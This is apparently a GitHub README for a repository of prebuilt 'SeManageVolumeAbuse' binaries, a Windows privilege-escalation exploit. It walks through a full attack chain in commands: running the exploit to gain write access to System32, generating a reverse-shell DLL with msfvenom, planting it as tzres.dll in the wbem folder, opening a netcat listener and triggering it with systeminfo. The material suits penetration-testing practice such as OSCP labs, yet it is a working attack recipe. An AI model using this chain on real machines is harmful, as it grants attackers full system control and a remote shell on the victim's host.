 # SeManageVolumeAbuse

Credit goes to xct <3. this is the main repo : [https://github.com/xct/SeRestoreAbuse](https://github.com/xct/SeManageVolumeAbuse)

This repo is just to have the prebuilt compiled exes to avoid manual compilation.



SeManageVolumeAbuse Get full control over C:\ when the user has SeManageVolumePrivilege (allowing to read/write any files). One possible way to get a shell from here is to write a custom dll to C:\Windows\System32\wbem\tzres.dll & call systeminfo to trigger it.

Credits:
- https://twitter.com/0gtweet/status/1303427935647531018
- https://github.com/gtworek/PSBits/blob/master/Misc/FSCTL_SD_GLOBAL_CHANGE.c

## Example of exploitation

Execute the exploit to gain write privileges to C:\Windows\System32\:

```
.\SeManageVolumeExploit.exe
```

Create a malicious DLL payload with msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=1337 -f dll -o tzres.dll
```

Place the malicious DLL in the WBEM directory:

```
copy tzres.dll C:\Windows\System32\wbem\
```

Set up a Netcat listener on the attacking machine:

```
rlwrap -cAr nc -lnvp 1337`
```

Activate the payload by running:

```
systeminfo
```

OSCP machine Access, my walkthrough: https://amandaguglieri.github.io/hackinglife/oscp-access/?h=
